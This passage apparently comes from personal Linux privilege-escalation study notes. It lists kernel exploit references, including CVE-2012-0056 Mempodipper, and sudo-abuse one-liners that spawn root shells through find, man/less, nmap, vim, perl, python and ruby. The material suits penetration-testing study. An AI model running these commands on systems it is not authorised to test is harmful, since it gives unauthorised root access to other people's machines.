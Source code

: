             -   <https://www.exploit-db.com/exploits/15704/>

        -   CVE-2012-0056 - Mempodipper - Linux Kernel 2.6.39 \< 3.2.2

            -   <https://git.zx2c4.com/CVE-2012-0056/about/>


-   **Files misconfiguration**
![sudo](images/sudo.png)


    -   exploiting sudo rights/user //sudo makes you run any commands as a root from any user

    -   sudo -l // Prints the commands which we are allowed to run as SUDO by any user

    -   if you find something like ( ALL : ALL ) ALL    //this means you have sudo access to all system

        -    you only need to \"sudo -u root /bin/bash\"  //  then you will be root

    -   if i found tools like :{ /urs/bin/man ,/usr/bin/nmap ,/usr/bin/vim.gtk , /usr/bin/find ,

        >  (less/more/man  are the same)
        >
        > {less / more / man}
        >
        > {find , mv , cp , nano}   
        >
        > {python / perl / ruby /lua}
        >
        > {gdb , }

    -   sudo /usr/bin/find /etc/passwd -exec /bin/bash \\;         //then you will be root

    -   sudo /usr/bin/{man/less/more}  then add  !sh   at the end       //then you are root but no tty

    -   sudo nmap \--interactive   then !sh // then you are root

    -   sudo /usr/bin/vim.gtk test.txt  then add :sh                      //then you are root

    -   sudo perl -e \'exec \"/bin/bash\" ;\' //then you are root

    -   sudo python -c \'import pty;pty.spawn(\"/bin/bash\")\' //then you are root

    -   sudo ruby -e \'exec \"/bin/bash\";\' //then you are root


-   **Exploiting services which are running as root**

    -   Ps \| grep root
